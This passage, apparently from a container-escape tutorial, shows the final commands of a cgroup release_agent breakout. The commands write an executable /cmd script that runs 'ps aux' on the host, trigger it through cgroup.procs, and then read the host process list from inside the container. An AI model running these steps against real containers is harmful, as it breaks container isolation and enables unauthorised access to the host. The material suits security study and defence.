echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" # Running process that will instantly trigger our release agent
```

3. After that, on container:

```bash
cat /output

```

And we see our host machine process list.
